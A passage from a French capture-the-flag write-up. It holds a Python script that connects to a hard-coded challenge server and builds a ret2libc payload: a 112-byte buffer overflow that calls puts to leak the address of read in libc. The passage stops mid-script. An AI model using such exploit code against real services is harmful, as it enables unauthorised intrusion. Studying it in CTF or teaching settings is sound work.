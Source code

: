 L'exploit local fonctionnant, je peux changer `pwntools` par `socket` pour dialoguer avec le service et l'exploiter en remote.

Je l'exécute une première fois pour me permettre de récupérer la libc depuis <https://libc.blukat.me/>.
Une fois la libc récupéré, je peux exploiter le service distant.

```python
#!/usr/bin/env python3

from pwnlib.elf.elf import ELF

import socket
import struct

def p32(addr):
    return struct.pack("<I", addr)

def u32(addr):
    return struct.unpack("<I", addr)

# Connect to the challenge
HOST = "144.217.73.235"
PORT = 27699
# LIBC
LIBC = ELF("./libc/libc6-i386_2.28-10_amd64.so")

def connect(HOST, PORT):
    tcp = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    tcp.connect((HOST, PORT))
    tcp.settimeout(1)
    return tcp

def recv(tcp):
    data = b""
    while True:
        try:
            data += tcp.recv(1024)
        except socket.timeout:
            break
    return data

if __name__ == "__main__":
    # Connect to the challenge
    tcp = connect(HOST, PORT)
    # Recv the header
    recv(tcp)

    # main function addr
    main_addr = p32(0x08049209)
    # Address of puts
    puts_addr = p32(0x8049060)
    # PLT address
    read_plt = p32(0x0804c010)
    libc_start_main = p32(0x0804c018)

    # Create payload
    payload_leak = b"".join([
        b"A" * 112,# Buffer overflow
        puts_addr,# Puts fonction
        main_addr,# Return to main
        read_plt# Get addr of read@LIBC
    ])

    # Leak read@libc
```